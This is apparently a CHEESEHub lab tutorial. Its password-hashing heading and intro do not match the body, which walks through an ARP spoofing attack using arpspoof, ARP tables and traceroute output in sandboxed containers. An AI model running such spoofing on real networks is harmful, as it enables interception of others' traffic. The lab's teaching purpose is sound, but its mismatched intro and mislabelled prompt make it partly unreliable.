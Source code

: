 ## Password Hashing and Cracking
Password is an important user authentication mechanism. Passwords are stored in the database as
hashes rather than plain text. If users’ passwords are stored in a database as plain text, malicious
hackers can get immediate access to them if they break into the system. In this lab, you will
understand what password hash is and how password hash be cracked.

### Demonstration

The demonstration on CHEESEHub illustrates the ARP spoofing attack using three separate machines; a victim, server, and, hacker. 
The *arpspoof* software provided by the *dsniff* library is used in the hacker to perform an ARP spoofing attack on the victim. 
The hacker provides its own MAC address in response to the server’s IP address, causing all messages from the victim to the server 
to be routed through the hacker. We verify the success of the attack in two ways. 

1. We will inspect the ARP table on the victim and discover two separate MAC addresses for the server’s IP address, one each 
from the server and hacker. 
2. We look at the routing of packets from the victim to the server (for a simple *ping* command) to discover that packets are 
delivered using two hops, first to the hacker and then to the server rather than a single hop directly to the server.

> ## Getting Started
> 
> You will need to create an account on [CHEESEHub](https://www.hub.cheesehub.org) to work through this exercise.
> Each container in this demonstration has a web interface and is accessible through your web browser, no other special software 
> is needed.
{: .callout} 

We will start by first adding the ArpSpoof application:

![Add ArpSpoof]({{ page.root }}/fig/arpspoof/add-arpspoof.png)

Next, click the *View* link to go to the application-specific page and start the application containers:

![Start Containers]({{ page.root }}/fig/arpspoof/start-containers.png)

> ## Container Launch Errors
>
> If a container fails to start, you will see a flashing warning icon next to the container's name. Take a look at the logs to 
> determine the cause of failure and try deleting the application and restarting.
{: .callout}

Once all the containers have started, launch each container's web interface in a separate browser tab by clicking the icon 
next to the container's name:

![Launch Containers]({{ page.root }}/fig/arpspoof/launch-containers.png)

We will start with the hacker. On the hacker browser tab, click on **Hacker.ipynb** to open a Jupyter notebook with instructions on 
conducting the attack:

![Open Hacker Notebook]({{ page.root }}/fig/arpspoof/hacker-notebook.png)

The next step is to find the IP address of the server. On the server browser tab, launch a new terminal window from the Jupyter 
notebook page:

![Server Terminal]({{ page.root }}/fig/arpspoof/launch-server-terminal.png)

To find the IP address of the server, use the *ifconfig* command at the server terminal:

~~~
jovyan@arpspoofserver:~$ ifconfig
~~~
{: .language-bash}

~~~
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1376
	inet 10.32.0.6 netmask 255.240.0.0 broadcast 10.47.255.255
	...
~~~
{: .output}

Make a note of the *inet* address returned on your terminal. Next, we will determine the IP address of the victim.

Launch a terminal in the victim browser window:

![Open Victim Terminal]({{ page.root }}/fig/arpspoof/victim-terminal.png)

Find the IP address of the victim using *ifconfig* at the victim terminal:

~~~
victim@arpspoofvictim:~$ ifconfig
~~~
{: .language-bash}

~~~
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1376
	inet 10.32.0.7 netmask 255.240.0.0 broadcast 10.47.255.255
	...
~~~
{: .output}

Now, inspect the ARP table on the victim (it only has one entry; the gateway):

~~~
victim@arpspoofvictim:~$ arp -n
~~~
{: .language-bash}

~~~
Address		HWtype		HWaddress		Flags Mask		Iface
10.32.0.1	ether		4a:6a:33:20:03:02	C			eth0
~~~
{: .output}

Next ping the server:

~~~
victim@arpspoofvictim:~$ ping 10.32.0.6
~~~
{: .language-bash}

~~~
PING 10.32.0.6 (10.32.0.6): 56 data bytes
64 bytes from 10.32.0.6: icmp_seq=0 ttl=64 time=0.171 ms
64 bytes from 10.32.0.6: icmp_seq=1 ttl=64 time=0.096 ms
64 bytes from 10.32.0.6: icmp_seq=2 ttl=64 time=0.072 ms
64 bytes from 10.32.0.6: icmp_seq=3 ttl=64 time=0.085 ms
...
~~~
{: .output}

Recheck the ARP table on the victim:

~~~
victim@arpspoofvictim:~$ arp -n
~~~
{: .language-bash}

~~~
Address		HWtype		HWaddress		Flags Mask		Iface
10.32.0.1	ether		4a:6a:33:20:03:02	C			eth0
10.32.0.6	ether		fa:65:b8:f5:81:46	C			eth0
~~~
{: .output}

It now has an entry for the server's IP. Now check the route to the server:

~~~
victim@arpspoofvictim:~$ traceroute 10.32.0.6
~~~
{: .language-bash}

~~~
traceroute to 10.32.0.6 (10.32.0.6), 64 hops max
1	10.32.0.6	0.003ms		0.002ms		0.001ms
~~~
{: .output}

Now we will conduct the ARP poisoning attack from the hacker. Open a terminal window on the hacker:

![Open Hacker Terminal]({{ page.root }}/fig/arpspoof/launch-hacker-terminal.png)

Run the *arpspoof* command on the hacker terminal with the victim and server IP addresses:

~~~
victim@arpspoofvictim:~$ sudo arpspoof -t 10.32.0.7 10.32.0.6
~~~
{: .language-bash}

~~~
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
~~~
{: .output}

> ## Order of arguments
> Note the order of arguments to the *arpspoof* command; the victim IP comes first followed by 
> the server IP address.
{: .callout}

Now ping the server again from the victim. You may need to wait a bit to see the output below:

~~~
victim@arpspoofvictim:~$ ping 10.32.0.6
~~~
{: .language-bash}

~~~
PING 10.32.0.6 (10.32.0.6): 56 data bytes
64 bytes from 10.32.0.6: icmp_seq=0 ttl=64 time=0.121 ms
64 bytes from 10.32.0.6: icmp_seq=1 ttl=64 time=0.082 ms
64 bytes from 10.32.0.6: icmp_seq=2 ttl=64 time=0.071 ms
64 bytes from 10.32.0.6: icmp_seq=3 ttl=64 time=0.096 ms
...
~~~
{: .output}

Let's recheck the ARP tables on the victim:

~~~
victim@arpspoofvictim:~$ arp -n
~~~
{: .language-bash}

~~~
Address		HWtype		HWaddress		Flags Mask		Iface
10.32.0.1	ether		4a:6a:33:20:03:02	C			eth0
10.32.0.6	ether		da:ee:b1:44:c2:78	C			eth0
10.32.0.8	ether		da:ee:b1:44:c2:78	C			eth0
~~~
{: .output}

> ## What is wrong with this ARP table?
> Notice that the server's IP address entry now has a different MAC (HWaddress) that before.
> Also, there are two IP addresses, both with the same MAC address. 10.32.0.8 is the IP address 
> of the hacker. Astute observers will also note that this MAC address was the response the *arpspoof*
> command was returning.
{: .callout}

Now check the route from the victim to the server:

~~~
victim@arpspoofvictim:~$ traceroute 10.32.0.6
~~~
{: .language-bash}

~~~
traceroute to 10.32.0.6 (10.32.0.6), 64 hops max
1	10.32.0.8	0.003ms		0.002ms		0.002ms
2	10.32.0.6	0.002ms		0.002ms		0.002ms
~~~
{: .output}

> ## What does traceroute tell us?
> There are now two hops that each message from the victim to the server is taking; first to the hacker 
> and then to the server.
{: .callout}

{% include links.md %}
